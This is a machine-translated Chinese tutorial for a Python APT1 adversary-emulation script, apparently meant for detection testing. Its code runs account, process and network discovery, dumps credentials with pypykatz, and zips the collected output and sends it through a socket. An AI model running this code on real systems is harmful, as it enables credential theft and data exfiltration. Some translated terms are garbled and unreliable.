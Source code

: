 # Python APT1 模拟器

> 原文：<https://infosecwriteups.com/python-apt1-simulator-41df8f4fe655?source=collection_archive---------2----------------------->

![](img/fa1130989e7bc868c4e5862014d1db73.png)

马库斯·斯皮斯克在 [Unsplash](https://unsplash.com?utm_source=medium&utm_medium=referral) 上的照片

米特尔 ATT CK 公司关于 APT1 集团的信息如下:

APT1 使用命令 net localgroup、net user 和 net group 在系统上查找帐户。
APT1 已经使用 RAR 压缩文件，然后将它们转移到受害者网络之外。
APT1 使用批处理脚本来执行一系列发现技术，并将其保存到文本文件中。APT1 从一名当地受害者那里收集了一些文件。
APT1 上市互联网络股份。
众所周知，APT1 利用 Mimikatz 进行凭证倾销。
APT1 使用 tasklist /v 收集系统上正在运行的进程列表。
APT1 使用 ipconfig /all 命令收集网络配置信息。
APT1 使用 net use 命令获得网络连接列表。
APT1 使用命令 net start 和 tasklist 获得系统上的服务列表。

[](https://github.com/anil-yelken/APT-Simulator) [## GitHub-Anil-yelken/APT-Simulator:APT 模拟器

### 来自米特 ATT 和 CK 的关于 APT1 小组的测试 Windows 10 信息如下:APT1 使用了命令 net…

github.com](https://github.com/anil-yelken/APT-Simulator) 

现在让我们用 python 解释一下代码。

APT1 使用命令 net localgroup、net user 和 net group 在系统上查找帐户。

```
try:
    localgroup=subprocess.check_output("net localgroup",shell=True)
    with open("localgroup.txt", 'wb') as file:
        file.write(localgroup)
except:
    pass
try:
    user=subprocess.check_output("net user",shell=True)
    with open("user.txt", 'wb') as file:
        file.write(user)
except:
    pass
try:
    group=subprocess.check_output("net group",shell=True)
    with open("group.txt", 'wb') as file:
        file.write(group)
except:
    pass
```

APT1 已经使用 RAR 压缩文件，然后将它们移出受害者网络。

客户:

```
try:
    file_zip = zipfile.ZipFile('file.zip', 'w')
    for folder, subfolders, files in os.walk('.'):
        for file in files:
            if file.endswith('.txt'):
                file_zip.write(os.path.join(folder, file),
                              os.path.relpath(os.path.join(folder, file), '.'),
                              compress_type=zipfile.ZIP_DEFLATED)
    file_zip.close()
    print("Files are compressed.")
    s = socket.socket()
    s.connect(("127.0.0.1", 80))
    with open("file.zip", "rb") as f:
        while True:
            bytes_read = f.read(4096)
            if not bytes_read:
                break
            s.sendall(bytes_read)
    s.close()
    print("Zip file sent.")
except:
    pass
```

服务器:

```
import socket
s = socket.socket()
s.bind(("0.0.0.0", 80))
s.listen()
client_socket, address = s.accept()
print(f"[+] {address} is connected.")
with open("received_file.zip", "wb") as f:
    while True:
        bytes_read = client_socket.recv(4096)
        if not bytes_read:
            break
        f.write(bytes_read)
client_socket.close()
s.close()
```

APT1 上市的互联网络股份。

```
try:
    netuse=subprocess.check_output("net use",shell=True)
    with open("netuse.txt", 'wb') as file:
        file.write(netuse)
except:
    pass
```

众所周知，APT1 使用 Mimikatz 进行凭据转储。

```
try:
    os.system("pip3 install pypykatz")
except:
    pass
try:
    os.system("pypykatz.py rekall dump -t 0")
    print("pypykatz is finished.")
except:
    pass
```

APT1 使用 tasklist /v 收集了系统上正在运行的进程的列表

```
try:
    tasklist=subprocess.check_output("tasklist /v",shell=True)
    with open("tasklist.txt", 'wb') as file:
        file.write(tasklist)
except:
    pass
```

APT1 使用 ipconfig /all 命令收集网络配置信息。

```
try:
    ipconfig=subprocess.check_output("ipconfig /all",shell=True)
    with open("ipconfig.txt", 'wb') as file:
        file.write(ipconfig)
except:
    pass
```

APT1 使用命令 net start 和 tasklist 来获取系统上的服务列表。

```
try:
    netstart=subprocess.check_output("net start",shell=True)
    with open("netstart.txt", 'wb') as file:
        file.write(netstart)
except:
    pass
try:
    tasklist=subprocess.check_output("tasklist /v",shell=True)
    with open("tasklist.txt", 'wb') as file:
        file.write(tasklist)
except:
    pass
```

注:为教育目的而写。

## 来自 Infosec 的报道:Infosec 每天都有很多内容，很难跟上。[加入我们的每周简讯](https://weekly.infosecwriteups.com/)以 5 篇文章、4 个线程、3 个视频、2 个 GitHub Repos 和工具以及 1 个工作提醒的形式免费获取所有最新的 Infosec 趋势！